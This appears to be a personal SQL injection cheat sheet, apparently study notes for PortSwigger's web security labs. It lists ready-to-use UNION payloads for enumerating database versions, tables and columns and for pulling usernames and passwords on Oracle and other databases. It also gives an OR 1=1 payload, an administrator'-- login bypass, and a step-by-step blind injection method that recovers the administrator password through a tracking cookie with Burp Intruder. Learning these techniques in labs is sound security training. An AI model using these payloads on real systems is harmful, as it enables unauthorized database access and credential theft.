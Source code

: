 ## SQLi Cheatsheet
https://portswigger.net/web-security/sql-injection/cheat-sheet

## Version Enumeration
```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version-- (Oracle)
'+UNION+SELECT+@@version,+NULL# (Windows & MSSql)
```

## Column Count Enumeration
```
'+UNION+SELECT+NULL,NULL-- (non oracle)
'+UNION+SELECT+'a','b'+FROM+dual-- (oracle)
```

## Table Enumeration
```
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables-- (non oracle)
'+UNION+SELECT+table_name,NULL+FROM+all_tables-- (oracle)
```

## Column Details Enumeration
```
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'-- (non oracle)
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'-- (oracle)
```

## Retrieve Data
```
'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef-- (non oracle)
'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF-- (oracle)
```

## General Payloads
```
'+OR+1=1--

```

## Auth Bypass
```
administrator'--
```

## Blind SQLi to guess passwords
Find a potentially vulnerable cookie in a BURP response. The page difference may be minimal, so check the site for text that only appears if a statement is true/false.
Cookie Example:
TrackingId=xyz' AND '1'='1 (true)
TrackingId=xyz' AND '1'='2 (false)

Next you will need to guess the table name and potential user names. Again, we attempt to verify the information with a true/false statement that confirms our guess:
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a

Now we need to guess the password length. The following statement should return as true and enables you to increase the length until you find the limit:
TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a

Next you will need to identify each letter using BURP intruder. The letters can be enumerated using the following query:
TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a
TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a
etc.
